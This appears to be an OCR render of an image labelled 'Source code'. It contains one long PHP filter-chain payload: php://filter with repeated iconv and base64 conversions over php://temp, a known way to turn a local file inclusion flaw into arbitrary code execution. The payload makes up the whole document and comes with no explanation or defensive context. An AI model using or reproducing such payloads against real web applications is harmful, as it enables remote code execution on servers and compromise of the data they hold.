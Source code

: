 ```bash
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
